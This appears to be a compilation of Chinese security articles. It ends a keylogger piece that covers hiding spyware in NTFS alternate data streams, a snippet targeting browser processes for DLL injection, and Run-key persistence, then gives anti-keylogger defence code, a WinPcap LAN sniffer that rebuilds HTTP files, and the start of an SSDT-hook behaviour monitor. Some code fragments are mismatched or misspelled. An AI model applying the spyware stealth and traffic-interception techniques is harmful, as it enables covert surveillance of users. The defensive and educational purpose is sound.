一个间谍程序为了防止自己被探测到，就必须隐藏好自己的踪迹。它们主要涉及 3 个技术区域：任务管理器、防火墙、文件系统。我们在这里介绍前两个。

#### 任务管理器盗窃

ADS（Alternate Data Streams）是一项 NTFS 文件系统特性，它能使你把文件数据附于已存在的文件中而不影响它们的功能；资源管理器等浏览工具对它们的显示，带有 ADS 的文件用本地文件浏览技术几乎是不可能检测到的。一旦文件被注入该项特性，ADS 即可被诸如传统的命令 type 等执行。在激活时，ADS 执行体以原始文件的方式出现并运行。可以用 Windows 资源管理器等进程观察器来试验。使用这种技术后，不仅能隐藏一个文件，而且能隐藏一个非法进程的执行体部分。事实上，如果安装了 NTFS 系统，你是不可能本地探测出以 ADS 方式隐藏的文件的。ADS 特性不能够被取消（disabled），目前为止还没有办法来针对用户已经对其具有存取权限的文件限制这种特性。示例程序为了简明扼要地没有使用 ADS。你可以用下列方式手工操作 ADS。

```cpp
BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
        case DLL_PROCESS_ATTACH:
        {
            char processName[255];
            GetModuleFileName(GetModuleHandle(NULL), processName, sizeof(processName));
            strcpy(processName, _strlwr(processName));
            if (strstr(processName, "iexplore.exe") || strstr(processName, "firefox.exe"))
                bInjectFtpDll = true;
            break;
        }
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

把监视程序加入到下列注册表键处将使得它能够在系统启动时一起启动：

```txt
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

示例程序把 `spy.exe` 作为一项新注册表值加入。

## 键盘监视的防范

下面介绍两种简单的技术来帮助你的应用程序反击基于钩子技术的键盘监视程序：具有防范监视功能的密码编辑控件。如图2所示。


图2

免于监视的编辑控件将针对每次用户击键生成一个模拟的随机击键串。监视程序将截获用户的击键和伪击键，这样一来使它很难或者不可能检索实际的输入文本。用户输入被存储于一个成员变量中，应用程序可以容易地通过编辑控件存取该变量的值。本例中的伪击键是通过调用 Win32 API `SendInput` 来实现的。下面的代码实现了两个控件：一个 MFC 版本，一个 .NET 版本。

该编辑安全控件假定函数 `SendInput` 生成击键的速度快于用户击键的速度，这可能导致编辑安全控件在较慢的机器上返回错误的用户数据，特别是在运行 C# 实现版本时。先看 VC++ MFC 版本的 `CSafeEdit` 类：

```cpp
if (m_state++ >= m_iDummyKeyStrokesCount)
    m_state = 0;
CEdit::OnKeyUp(nChar, nRepCnt, nFlags);

////////////////////////////////////////////
CString CSafeEdit::GetRealText()
{
    return m_sRealText;
}

////////////////////////////////////////////
int CSafeEdit::SendDummyKeyStrokes()
{
    srand((unsigned)::GetTickCount());
    int iKeyStrokeCount = rand() % 5 + 1;
    int key;
    INPUT inp[2];
    inp[0].type = INPUT_KEYBOARD;
    inp[0].ki.dwExtraInfo = ::GetMessageExtraInfo();
    inp[0].ki.dwFlags = 0;
    inp[0].ki.time = 0;
    for (int i = 0; i < iKeyStrokeCount; i++)
    {
        key = rand() % ('Z' - 'A') + 'A';
        inp[0].ki.wScan = key;
        inp[0].ki.wVk = key;
        inp[1] = inp[0];
        inp[1].ki.dwFlags = KEYEVENTF_KEYUP;
        SendInput(2, inp, sizeof(INPUT));
    }
    return iKeyStrokeCount;
}
```

```cpp
void CSafeEdit::OnKeyUp(UINT nChar, UINT nRepCnt, UINT nFlags)
{
    if (nChar == VK_SHIFT || nChar == VK_CONTROL || nChar == VK_MENU)
        return;
    if (nChar == VK_DELETE || nChar == VK_BACK)
    {
        SetWindowText("");
        m_sRealText = "";
        return;
    }
    if (m_state == 0)
    {
        m_iDummyKeyStrokesCount = SendDummyKeyStrokes();
        m_state = 1;
        CString text;
        GetWindowText(text);
        m_sRealText += text.Right(1);
    }
    else
    {
        ...
    }
}
```

## 用 C# 实现的 SafeEdit 类

```csharp
public struct KEYBDINPUT
{
    public Int16 wVk;
    public Int16 wScan;
    public Int32 dwFlags;
    public Int32 time;
    public Int32 dwExtraInfo;
    public Int32 __filler1;
    public Int32 __filler2;
}
public struct INPUT
{
    public Int32 type;
    public KEYBDINPUT ki;
}
[DllImport("user32")] public static extern int SendInput(int cInputs, ref INPUT pInputs, int cbSize);

protected void OnKeyUp(object sender, System.Windows.Forms.KeyEventArgs e)
{
    if (e.KeyData == Keys.ShiftKey || e.KeyData == Keys.ControlKey || e.KeyData == Keys.Alt)
        return;
    if (e.KeyData == Keys.Delete || e.KeyData == Keys.Back)
    {
        Text = "";
        m_sRealText = "";
        return;
    }
    if (m_state == 0)
    {
        m_iDummyKeyStrokesCount = SendDummyKeyStrokes();
        m_state = 1;
        m_sRealText += Text[Text.Length - 1];
    }
    else
    {
        if (m_state++ >= m_iDummyKeyStrokesCount)
            m_state = 0;
    }
}

public int SendDummyKeyStrokes()
{
    short key;
    Random rand = new Random();
    int iKeyStrokeCount = rand.Next(1, 6);
    INPUT inputDown = new INPUT();
    inputDown.type = INPUT_KEYBOARD;
    inputDown.ki.dwFlags = 0;
    INPUT inputUp = new INPUT();
    inputUp.type = INPUT_KEYBOARD;
    inputUp.ki.dwFlags = KEYEVENTF_KEYUP;
    for (int i = 0; i < iKeyStrokeCount; i++)
    {
        key = (short)rand.Next('A', 'Z');
        inputDown.ki.wVk = key;
        SendInput(1, ref inputDown, Marshal.SizeOf(inputDown));
        inputUp.ki.wVk = key;
        SendInput(1, ref inputUp, Marshal.SizeOf(inputUp));
    }
    return iKeyStrokeCount;
}
```

## 扫描监控类

```cpp
m_SpyRemover->EnumModules();

SpyRemover::SpyRemover(char* szAuthorizedList)
{
    m_SpyRemover = this;
    m_szAuthorizedList = " ";
    m_szAuthorizedList += szAuthorizedList;
    m_szAuthorizedList += " ";
    m_szAuthorizedList.MakeLower();
    SetTimer(NULL, 0, 500, TimerProc);
}

void SpyRemover::EnumModules()
{
    DWORD dwPID = ::GetCurrentProcessId();
    HANDLE hModuleSnap = INVALID_HANDLE_VALUE;
    MODULEENTRY32 me32;
    hModuleSnap = CreateToolhelp32Snapshot(TH32CS_SNAPMODULE, dwPID);
    if (hModuleSnap == INVALID_HANDLE_VALUE)
        return;
    me32.dwSize = sizeof(MODULEENTRY32);
    if (!Module32First(hModuleSnap, &me32))
    {
        CloseHandle(hModuleSnap);
        return;
    }
    do
    {
        if (!IsModuleAuthorized(me32.szModule))
        {
            HMODULE hmodule = me32.hModule;
            CloseHandle(hModuleSnap);
            FreeLibrary(hmodule);
            return;
        }
    } while (Module32Next(hModuleSnap, &me32));
    CloseHandle(hModuleSnap);
}

bool SpyRemover::IsModuleAuthorized(char* szModuleName)
{
    char szModule[1024];
    sprintf(szModule, " %s ", szModuleName);
    strcpy(szModule, _strlwr(szModule));
    if (strstr(m_szAuthorizedList, szModule))
        return true;
    else
        return false;
}
```

SpyRemover 类如图3所示。


图3

基于钩子技术的监视程序依赖于它们的钩子过程 DLL。将钩子 DLL 从应用程序进程中移去，将使注入该应用程序的窥探程序失去窥探击键的功能。示例程序使用类 SpyRemover 来移去钩子 DLL 文件。SpyRemover 构造器接收一个“授权模块”的列表。如果一个模块只是装入到一个应用程序中，但是没有出现在该列表中，则被认为是没有授权的。SpyRemover 通过枚举所有的应用程序进程模块来探测未经授权的模块。

```cpp
VOID SpyRemover::TimerProc(HWND hwnd, UINT uMsg,
    unsigned int idEvent, DWORD dwTime)
```

#### 小结

本文以软件保护为背景，详细讨论了一个键盘监视器的开发并针对反监视提出了一些建议。希望读者理解基于钩子技术的窥探软件的工作原理，更好地针对自己的软件加以保护。

Socket：相信喜欢黑客工具的朋友们都应该对嗅探器很熟悉吧？SnifferPro、Iris 这些大名鼎鼎的嗅探器也有不少人用，在使用着别人写的软件的时候，有没有想过自己编写一个呢？什么？你觉得很难？没关系，只要你有 MFC 的基础，本文将手把手教你编写属于自己的 Sniffer，怎么样？动心了吧？那就 Come On！

## 彻底恐翼——给嗅探器加上数据还原！


文/图 Blackbeast

本文是以一个我前几天刚刚写好的 Sniffer 为例子的，该程序可以监测局域网上所有的数据包；并且可以自动分析各个数据包的结构，完成对该数据包的分类。在该程序中，初步实现了对链路层数据、网络层数据、传输层数据和应用层数据的分层解析，并可识别协议：路由生成树、ARP、IP、TCP、UDP、HTTP、ICMP，并实现了对 HTML、JPG、GIF、BMP、FLASH 几类文件的重组和显示。下面还是先介绍一下这个程序的使用方法吧。

#### 使用方法

在本程序开始运行时会弹出适配器选择对话框，如图1所示。


图2


图1

在选择了所要监控的适配器之后，程序跳转到主界面，如图2所示。

首先介绍一下主界面的布局：最左侧是工具栏，然后是树状协议分析区，可以按照数据包的层次结构依次解析数据包内容；右侧上半部是数据包列表，所有收到的数据包都会显示在这个区域；下半部是内存解析区，在左侧的树状包结构的节点上点击相应的位置，这个区域会分别显示内存数值和对应 ASCII 码值。

下面介绍各种功能。左侧的工具栏共有 7 个按钮，分别对应：

- 嗅探开始/恢复
- 嗅探暂停
- 嗅探停止
- 设置过滤器
- 重新选择适配器
- 关闭程序
- 帮助

把鼠标指针放在任何按钮上，程序状态栏会给出相应的功能提示，对应功能在程序的菜单中也有相应的选项。数据包列表部分能够响应鼠标消息，当单击任何一个数据包时，都会在左侧的树状协议分析区显示出该数据包的结构，并且在下部的内存显示区显示整个数据包的内存数据。在使用时，数据包列表部分会有些数据包显示出不同的颜色，如图3所示。


图3

每一个使用特殊颜色的数据包对应一个有可能还原的 HTTP 协议中传输的文件。如果双击该数据包，程序会自动搜索所有包含该文件内容的数据包，并把所有数据重组，生成对应文件，显示到屏幕上，如图4所示。


图4

有一点需要声明：由于本程序主要做测试之用，故在重组数据包的时候没有考虑 TCP 出错重传的情况，搜索深度也较浅，所以对某些拓扑距离过远的网站传送的文件解析效果不是很好。在树形区中点击节点，在内存显示区中会显示相应的内存数据。为了编写方便，我只处理了根节点下第一层子节点的操作，其余节点点击无效。下面介绍过滤器的设置，过滤器设置界面如图5所示。


图5

过滤器内容共包含 4 种：协议类型、IP 地址、物理地址、端口号。

在“协议类型”标签栏中，我们可以设置对网络层协议和传输层协议的选择，单击复选框选择需要过滤的协议，然后单击“添加”按钮。

在“物理地址”标签栏中，我们可以设置对物理地址的过滤。注意，物理地址必须是如下格式：“XX:XX:XX:XX:XX:XX”，否则无法正常编译。如图6所示。


图6

设置后单击“添加”按钮。“IP 地址”是设置有关 IP 协议过滤的；“端口号”是设置端口过滤的，操作与物理地址过滤设置相同，不再赘述。在设置完所有的过滤器后，必须点击该对话框右上角的“设置”按钮通知程序编译新的过滤器；如果只是希望清除旧的过滤器设置，单击“清空”按钮即可。

#### 程序体系结构

下面该介绍编写方法了。其实编写一个程序，最重要的是前期对程序结构的规划。记住一点：对困难问题很难一次解决，就采用分而治之的办法分层解决。所以只要前期进行了详尽的设计和系统的规划，编码算不了什么。下面我来介绍一下本程序的体系结构，该程序的主体由用户界面模块、数据传输模块和数据包捕获模块等 3 个模块构成。用户界面是一个单一文档多视图结构的 MFC 向导生成程序。由于 MFC 体系结构内容复杂，故介绍流程的过程中有关 MFC 类构造、析构、处理消息的则略过或简单介绍。如图7所示。


图7

该功能模块主要从事与用户的交互功能，在收到“接收数据包”消息后，该模块根据消息函数的参数在文档中找到相关的缓冲区，从其中获得数据包的内存映像并解析，首先获得其中的物理地址、IP 地址、端口号等信息，并智能分析协议类型，最后把这些信息输出到列表框中。当用户单击该列表项的时候，`CListView` 以该数据包的内存地址为参数向 `CTreeView` 和 `CDialogView`（对应下部的数据展示区）分别发送消息，通知它们解析该数据包内容，并在屏幕上显示……

下面是数据传输模块。数据传输模块主要负责在其他两个模块之间的数据中转。为什么要增设这个模块呢？因为抓取数据包后对数据包的处理过程应该尽量简略，以避免出现丢包现象，所以与用户界面通讯的任务就交给这个模块完成。首先还是工作流程，如图8所示。


这个功能模块主要负责数据抓取线程和用户界面线程之间的通信，在确保抓取线程运行的基础上，顺次检验缓冲区数组中各个缓冲区是否已经被抓取线程填充数据包内容，如果已经填充完毕，则通知用户界面解析该数据包。以 2000 个数据包为界限，每到 2000 个数据包，抓取程序自动停止等待，用户界面处理完毕再继续抓取，这其中的同步功能也由这个模块完成。

```cpp
bool IfThread2Start = false;
Parament *P = NULL;
static int Schedule = 0;

UINT TransmitThreadFunc(LPVOID PParament)
{
    while (!IfThread2Start) { Sleep(40); }
    while (P != NULL && P->Stop == false)
    {
        while (P != NULL && P->Pause) { Sleep(100); ... }
        while (P != NULL && P->Buf[Schedule].Valid == false) { Sleep(10); ... }

        CWnd *PWnd = (CWnd *)PParament;
        P->Buf[Schedule].Valid = false;
        PWnd->SendMessage(WM_ADDLISTENTRY, Schedule);
        Schedule++;
        if (Schedule == 2000) { Schedule = 0; }
    }
    return(0);
}
```

```cpp
{
    Sleep(100);
    if (P != NULL && P->Stop) { return(0); }
}
while (P != NULL && P->Buf[Schedule].Valid == false)
{
    Sleep(10);
    if (P != NULL && P->Stop) { return(0); }
}
CWnd *PWnd = (CWnd *)PParament;
P->Buf[Schedule].Valid = false;
PWnd->SendMessage(WM_ADDLISTENTRY, Schedule);
Schedule++;
if (Schedule == 2000) { Schedule = 0; }
return(0);
```

最后是数据捕获模块，也是最重要的模块。此模块使用 WinPcap 3.1 编写而成，主要负责从网络上捕获数据包，并把数据包拷贝到相关缓冲区里。也先给大家一张流程图，如图9所示。


该模块主要负责在网络上捕获数据包，它的功能相对简单，在完成初始化并且编译 Filter 无误后，即开始抓取数据包的循环。抓取到数据包后，即把该数据包整个复制到缓冲区数组的相应块中，并标示该块内存数据有效，然后继续抓取下一个数据包，其他工作交给另外两个模块完成。下面是代码分析：

```cpp
void packet_handler(u_char *param, const struct pcap_pkthdr *header, const u_char *pkt_data)
// 这个函数是 WinPcap 抓到数据包后的回调函数
```

```cpp
{
    static int i = 0;
    if (P == NULL) // 判断是否退出
    {
        ExitThread(0);
    }
    while (P != NULL && P->Pause) // 判断是否为暂停情况
    {
        if (P != NULL && P->Stop) // 判断是否停止
        {
            ExitThread(0);
        }
        Sleep(10);
    }
    if (P != NULL && P->Stop) // 判断是否停止
    {
        ExitThread(0);
    }
    memcpy(&(P->Buf[i].header), header, sizeof(pcap_pkthdr)); // 复制捕获数据包到相应的缓冲区
    memcpy(P->Buf[i].Buf, pkt_data, header->len);
    P->Buf[i].Valid = true; // 表示数据有效
    i++;
    if (i == 2000) // 同步
    {
        while (Schedule != 0)
        {
            Sleep(100);
        }
        i = 0;
    }
}

UINT SnifferThreadFunc(LPVOID pParament) // 这个是抓获数据包的主线程
{
    P = (Parament*)pParament;
    HTThread2Start = true; // 初始化全局变量
    pcap_t *adhandle;
    char ErrBuf[PCAP_ERRBUF_SIZE];
    struct bpf_program fcode;
    ULONG NetMask;
    CWnd *PWnd = P->PFather;
    if ((adhandle = pcap_open_live(P->Dev->name, 65536, 1, 1000, ErrBuf)) == NULL) // 打开 Winpcap 句柄
    {
        CString Tmp;
        Tmp.Format("Open Adapter :%s Error!", P->Dev->name);
        MessageBox(NULL, Tmp.GetBuffer(), "Error", MB_OK | MB_ICONERROR);
        PWnd->SendMessage(WM_WINPCAPWRONG, 1); // 发送消息，通知该线程出错
        return -1;
    }
    if (pcap_datalink(adhandle) != DLT_EN10MB) // 判断是否工作在以太网下
    {
        MessageBox(NULL, "This Program only support Ethernet", "Error", MB_OK | MB_ICONERROR);
        PWnd->SendMessage(WM_WINPCAPWRONG, 2);
        return -1;
    }
    if (P->Dev->addresses != NULL)
    {
        NetMask = ((struct sockaddr_in *)(P->Dev->addresses->netmask))->sin_addr.S_un.S_addr;
    }
    else
    {
        NetMask = 0xffffff;
    }
    if (pcap_compile(adhandle, &fcode, P->Filter, 1, NetMask) < 0) // 编译过滤器
    {
        CString Err;
        Err.Format("Can't Compile Filter:%s", P->Filter);
        MessageBox(NULL, Err, "Error", MB_OK | MB_ICONERROR);
        PWnd->SendMessage(WM_WINPCAPWRONG, 3);
        return -1;
    }
    if (pcap_setfilter(adhandle, &fcode) < 0) // 设置过滤器
    {
        MessageBox(NULL, "Can't Set Filter", "Error", MB_OK | MB_ICONERROR);
        PWnd->SendMessage(WM_WINPCAPWRONG, 4);
        return -1;
    }
    pcap_loop(adhandle, 0, packet_handler, NULL); // 开始捕获数据包的循环
    return 0;
}
```

3个模块之间总体关系如图10所示。下面是具体模块细节功能介绍，首先介绍ListView解析数据包过程。


图10

在收到解析数据包的消息后，该模块首先获得该数据包在缓冲区数组中的位置，并将指针转移到相关位置，解析该数据包的源物理地址和目的物理地址，然后检测该数据包是否是一个IP数据包或者ARP数据包，如果不是，表示其属性为“802.3”，解析停止；如果是ARP数据包，继续解析其中的源IP地址和目的IP地址，并获得有关数据长度的信息，解析至此结束；如果是IP数据包，则需要继续解析，首先分析其IP头中的协议字段，看该数据包是否为ICMP、TCP或者UDP数据包，如果不是以上任意一类，则获取有关数据长度的信息，解析结束；如果是ICMP数据包，则标示该数据包协议类型为ICMP，并获得数据长度信息，并结束解析；如果是TCP或者UDP数据包，则需要进一步解析。针对UDP数据包，则获取其端口信息，并针对端口号进一步判断其协议类型，本程序可以识别的协议类型包括SNMP、DNS、NETBIOS、BOOTP和OICQ，识别到这些信息以后，获取剩余数据长度信息，并结束解析。

针对TCP数据包，也需要进行获取端口号的操作，并根据其端口号进一步判断其协议类型，可判断的协议类型包括HTTP、FTP、NETBIOS、SMTP、POP、TELNET、SSH、SOCKET代理，程序运行至此，如果不是HTTP，则获取剩余数据长度信息，解析结束；若是HTTP协议，则还需要判断该HTTP协议是否是一个HTTP协议从服务端传送数据的TCP连接的第一个数据包（除去建立连接的数据包），若是，则使用特殊颜色标示该数据包在视图中对应的位置，以便进行还原HTTP传送文件的操作。

接着是TreeView的解析过程，该解析过程和ListView的解析过程基本相同，只不过其解析过程更加详细。其基本解析思想也是自底向上，逐层解析，在此把其解析过程与ListView解析过程的区别具体介绍，雷同之处不再赘述。首先，在解析ARP协议的时候，根据ARP数据包的结构获得其数据包中的所有内容，并依次转换成树状结构中对应的节点，并在视图区显示。针对TCP、UDP、ICMP的解析也有类似的过程，而针对HTTP协议数据段，则是以“0D 0A”为界限，拆分其中的各条HTTP命令和响应消息，并依次以树节点的形式显示。但是由于TCP协议可能会根据MTU自动拆分长数据包，以致有些HTTP数据包只是完全存放文件内容，并不包含任何HTTP协议控制字段，故在解析之前先要判断该数据包是否含有命令控制信息，然后再进行解析。

最后是解析数据包内存过程，该过程相对比较简单，在接收到解析数据的消息之后，首先从消息响应函数中获得存放该数据包的内存地址，然后分别得到各个字节存放数据的数值，并把数值输出，接着再把各个字节的数值转换成其对应的ASCII码字符，并把这些字符也输出到界面上。

以上3个过程虽然总体上说比较复杂，但毕竟是基于MFC架构，可读性较强，故不再分析代码了，大家去工程里自己看吧。接下来介绍设置过滤器过程和重组HTTP数据过程设置。过滤器分成4个子项：

- 协议类型
- 端口号
- 物理地址
- IP地址

这4个子项过滤器之间是“与”的关系，协议类型设置相对简单，直接根据使用者选中的协议类型设置即可。其他3个子项都有可能存在多条记录，多条记录之间是“或”的关系，首先要检查用户输入的正确性，然后根据用户输入生成新的过滤器字段，并使用“或”运算符把新生成的运算符字段与原有该子项的运算符字段连接，最后再使用“与”运算符把各个子项的运算符字段连接起来，并提交。

这个过程也比较简单，故也不给出代码分析了，只需要记住WinPcap的过滤器格式规则，并适当应用“and”“or”等连接符即可。

重组HTTP数据过程比较复杂。首先，根据过程中特殊颜色标识的数据包找到包含HTTP数据的第一个数据包，然后获得本HTTP数据文件的长度，并判断该数据包是否包含了本HTTP数据文件的全部数据。如果是，则直接复制内存数据并还原该数据，进而使用HTTPDialog打开该数据文件；否则，在缓冲区中寻找其他的数据包内存映像，寻找方法如下：首先根据该数据包的长度和Sequence number判断出对应该数据包的下一个数据包的Sequence number，然后开始在缓冲区数组中寻找与该数据包属于同一TCP连接的数据包。

由于可能存在乱序现象，故寻找要兼顾本数据包位置的两侧，找到后，取出该包中的数据，并与已获得数据拼接到一起，比较获得数据的长度和本HTTP数据文件的长度，如果该文件长度大于已获得数据长度，则继续寻找过程，否则成功返回。下面给出重组数据的代码：

```cpp
char *FindNextPacket(Buffer* First/*链表头部*/,
    int CurrentPosition/*当前元素在链表中的位置*/,
    int &NextPacketPosition/*找到数据包中的位置*/,
    ULONG &LengthInNextPacket/*找到数据包中的数据长度*/)
// 这个函数用来寻找一个指定的TCP连接中数据包的下一个数据包
{
    tcp_packet *PTcpPacket = (tcp_packet*)(First[CurrentPosition].Buf);
    ULONG DataLength = (First[CurrentPosition].header.len -
        sizeof(ip_packet) - ((PTcpPacket->TcpHead.th_lenres) >> 2));
    ULONG t1, t2, t3;
    t1 = ntohl(PTcpPacket->TcpHead.th_seq);
    t2 = t1 + DataLength;
    t3 = htonl(t2);
    ULONG NextSequenceNO = t3; // 获得下一个Sequence号
    USHORT SourcePort = PTcpPacket->TcpHead.th_sport; // 源端口号
    USHORT DestPort = PTcpPacket->TcpHead.th_dport;   // 目的端口号
    ULONG SourceAddr = PTcpPacket->IpPacket.IpHead.source_addr;
    ULONG DestAddr = PTcpPacket->IpPacket.IpHead.dest_addr;
    int j = 0;
    for (int i = CurrentPosition + 1; ... ) {
        // 省略
    }
}
```

```cpp
&PTcpPacket->TcpHead.th_dport == DestPort)
{
    j++;
    if (NextSequenceNO == PTcpPacket->TcpHead.th_seq)
    {
        NextPacketPosition = i;
        LengthInNextPacket = First[i].header.len - sizeof(ip_packet) - ((PTcpPacket->TcpHead.th_lenres) >> 2);
        return (((char *)&(PTcpPacket->TcpHead)) + ((PTcpPacket->TcpHead.th_lenres) >> 2));
    }
}
...
for (i = CurrentPosition - 1; i > (CurrentPosition - 50 > 0 ? (CurrentPosition - 50) : 0) && j < 10; i--)
{
    PTcpPacket = (tcp_packet*)(First[i].Buf);
    if (PTcpPacket->IpPacket.EthHead.ch_type == 0x8)
    {
        if (PTcpPacket->IpPacket.IpHead.source_addr == SourceAddr && PTcpPacket->IpPacket.IpHead.dest_addr == DestAddr)
        {
            if (PTcpPacket->IpPacket.IpHead.proto == 6)
            {
                if (PTcpPacket->TcpHead.th_sport == SourcePort && PTcpPacket->TcpHead.th_dport == DestPort)
                {
                    j++;
                    if (NextSequenceNO == PTcpPacket->TcpHead.th_seq)
                    {
                        ...
                    }
                }
            }
        }
    }
}
return NULL;
```

```cpp
DataGeted += LenthInThisPacket;
int NextPacketPosition = CurrentPosition;
while (DataGeted < TotalLength)
{
    ULONG AddDataLength = 0;
    char *DataAdd = FindNextPacket(First, NextPacketPosition, NextPacketPosition, AddDataLength);
    if (DataAdd != NULL)
    {
        if (AddDataLength + DataGeted <= TotalLength)
        {
            memcpy(RebuildData + DataGeted, DataAdd, AddDataLength);
            DataGeted += AddDataLength;
        }
        else
        {
            delete []RebuildData;
            return NULL;
        }
    }
    else
    {
        delete []RebuildData;
        return NULL;
    }
}
return RebuildData;
```

> 因为TCP在复杂网络上传输很可能存在乱序的现象，所以需要向前向后都进行搜索。

```cpp
char *GetData(Buffer* First/*链表头部*/,
              char *CurPosition/*本数据包中重组数据的起始位置*/,
              ULONG LenthInThisPacket/*重组数据在该数据包中的长度*/,
              int CurrentPosition/*当前元素在链表中的位置*/,
              ULONG TotalLength/*数据总长度*/)
{
    ULONG DataGeted = 0;
    char *RebuildData = new char[TotalLength];
    memcpy(RebuildData, CurPosition, LenthInThisPacket);
    ...
}
```

#### 测试结果

经测试，本程序可以在以太网上顺利工作，并正确分析以太网上的各种数据包。此外，在重组HTTP文件方面，我们学校的一些校内网站发送的文件，几乎所有的都可以成功还原。广域网上的一些网站，类似新浪、搜狐等的还原错误率也较低。而某些网站，尤其是一些与校园网络连接拓扑结构过于复杂或者链路质量较差的网络，因其过高的超时重传率造成大量错误TCP数据包，故而重组失误率较高。此外，测试机器必须安装Winpcap 3.1，低版本Winpcap会存在网卡物理地址过滤无法成功编译的现象。

#### 小结

总而言之，本文写得比较简略，但是台湾著名计算机专家侯杰说过：“源代码面前没有秘密！”。源代码放到光盘里了，大家还有什么不明白的自己看代码就行了（顺便说一句，我的开发环境是Windows XP SP2 + Visual Studio .NET）。只要静下心来，相信没什么问题的。有什么问题欢迎大家发信和我讨论，祝大家都能开发出功能强大的为自己量身定做的Sniffer！

【本文涉及的代码（程序），请见随书光盘】

### 打造自己的程序行为监视器


文／图 张东辉[shineast] 袁野

目前是一个杀毒软件急需大革命的时代，网络上的病毒、木马、蠕虫、恶意软件不断肆虐，尤其是各种木马、后门软件已经成灾。虽然传统的杀毒软件还在奋力抵挡病毒的入侵，但这种带有滞后性的杀毒思想已经难以满足用户安全的要求。很多未知的病毒，甚至0Day攻击经常出现，导致传统的杀毒手段很被动……病毒的变形技术、免杀技术给传统的杀毒软件带来了很大的压力。

在这样的局面下，涌现出了很多基于行为特征来杀毒的杀毒软件，还有一些主动防御杀毒软件，稍微使得病毒肆虐的局面有些好转。因此，笔者认为通过程序行为来查毒、杀毒的理念应该是今后安全领域研究的热点和重点……本文将我在这个过程中遇到的问题、使用的主要技术、代码详细整理出来，供读者参考。

（右栏）关于行为特征杀毒与传统特征码杀毒的讨论：行为特征在应对未知病毒方面有优势，变形技术将逐步失效，绕过技术也属于行为并可被提取。总体上，行为杀毒具有前景，并提出了基于行为特征的杀毒逻辑（图1所示）。


图1

#### 基于行为特征的杀毒逻辑

上面已经提到，基于行为特征来杀毒已经不同于传统的杀毒思想，它是化病毒文件特征码为行为特征……

本系统分为4大模块：

- 程序行为提取模块
- 恶意行为特征库模块
- 规则匹配模块
- 恶意行为回滚/恢复模块

各个模块的介绍如下。程序行为提取模块——通过SSDT HOOK的方式，编写一个Native API拦截的驱动程序，能够实时地知道任何一个程序在任何一个时刻调用了什么原生……API函数，进而以此作为一个行为。在一段时间内该程序调用的这些函数组成的序列，就作为这个程序的行为或行为序列。该模块的主要作用就在于高效、稳定地工作于 Ring0 上，从而提取所有程序的行为。

恶意行为特征库模块——该模块主要作用在于通过大量的恶意程序、病毒、木马来训练并构建一个合理的恶意行为特征知识库。有了这个库就可以形成一些规则，只要一个程序的行为和某条规则匹配，就认定该程序是某种恶意程序。

规则匹配模块——该模块用于在模块1实时地得到一个程序的动态行为序列后，高效准确地和上述的行为特征规则库匹配出是否是恶意程序。

恶意行为回滚/恢复模块——该模块用于在检测出某个程序是恶意程序后，将其在检测之前所作的恶意行为进行回滚，或恢复对操作系统的各项更改。

当然，本文仅介绍程序行为提取部分内容，其他模块还在实现中，在后续的研究过程中还会和读者继续交流。

## 程序行为监视器（BehaviorMon）的实现

BehaviorMon由两部分组成：一是后台驱动程序 BehaviorMon.sys；二是前台应用程序 BehaviorMon.exe。这里先把前台程序界面展示一下，如图2所示。在前台程序界面中，蓝色显示的是注册表操作行为，紫色显示的是文件操作行为，红色显示的是内存操作行为，黑色显示的是其他操作行为。其实应该还有网络操作行为，但目前还未实现，将在下一个版本中完善。


图2

另外，本程序主要参考了 Sysinternals 公司的 RegMon 和 FileMon，因此界面上有很多相似之处，同时在功能方面有所加强。例如前台能够控制后台驱动动态地 hook 哪些 Native API，也可以动态地 unhook，可以针对一个特定的程序进行行为监视。

前台程序运行起来后，要做的第一件事就是安装我们的驱动程序，并由驱动程序内部来创建一个虚拟设备（`\Device\BehaviorMon`）。这里安装驱动是通过服务来安装的，注意在创建服务 behaviormonservice 时要声明服务类型为内核驱动类型。具体看下面的代码和注释吧。

```cpp
// 安装设备驱动
// 安装了设备驱动后，设备驱动程序中负责创建一个新的虚拟设备
void CBehaviorMonView::setup()
{
    char namebuff[256];
    // get path to this .sys file
    GetModuleFileName(0,namebuff,256);
    DWORD a=strlen(namebuff);
    while(1){ if(namebuff[a]=='\\')break; a--; }
    a++;
    strcpy(&namebuff[a],"BehaviorMon.sys");

    // 安装驱动程序流程：
    // 1. 调用 OpenSCManager() 打开服务控制管理器
    // 2. 调用 CreateService() 创建一个服务（内核驱动）
    // 3. 调用 OpenService() 获取服务句柄，启动服务
    // 4. 调用 StartService() 启动服务/ControlService() 停止服务
    // 5. 调用 DeleteService() 删除服务
    // 6. 调用 CloseServiceHandle() 关闭服务句柄

    SC_HANDLE t; SERVICE_STATUS stat;
    SC_HANDLE man=OpenSCManager(0,0,SC_MANAGER_ALL_ACCESS);
    t=OpenService(man,"behaviormonservice",SERVICE_ALL_ACCESS);
    ControlService(t,SERVICE_CONTROL_STOP,&stat);
    DeleteService(t);
    CloseServiceHandle(t);

    t=CreateService(man,"behaviormonservice","behaviormonservice",
      SERVICE_START|SERVICE_STOP,SERVICE_KERNEL_DRIVER,
      SERVICE_DEMAND_START,SERVICE_ERROR_NORMAL,namebuff,0,0,0,0,0);
    if(t==NULL){ /* 创建服务失败 */ }
    if(0==StartService(t,0,0)){ /* 启动服务失败 */ }
}
```

驱动加载到内核空间后，开始执行入口函数 DriverEntry。该函数相当于 C 语言的 main 函数，它在驱动程序被加载进内存的时候调用。该函数中第一个任务就是要创建设备和创建符号链接，第二个任务就是要设定驱动程序对象的几个函数指针。

```cpp
const WCHAR devicename[]=L"\\Device\\BehaviorMon";
const WCHAR devicelink[]=L"\\DosDevices\\BEHAVIORMON";

PDEVICE_OBJECT devobject=0; // 设备对象
UNICODE_STRING devlink,devname;
// 设备链接，设备名称
RtlInitUnicodeString(&devname,devicename);
RtlInitUnicodeString(&devlink,devicelink);
// 创建设备 + 创建符号链接
IoCreateDevice(driver,2048,&devname,FILE_DEVICE_UNKNOWN,0,TRUE,&devobject);
IoCreateSymbolicLink(&devlink,&devname);
// 设定驱动程序对象的几个函数指针
driver->MajorFunction[IRP_MJ_DEVICE_CONTROL]=DrvDispatch; // 派遣函数
driver->MajorFunction[IRP_MJ_CREATE]=DrvCreateClose;
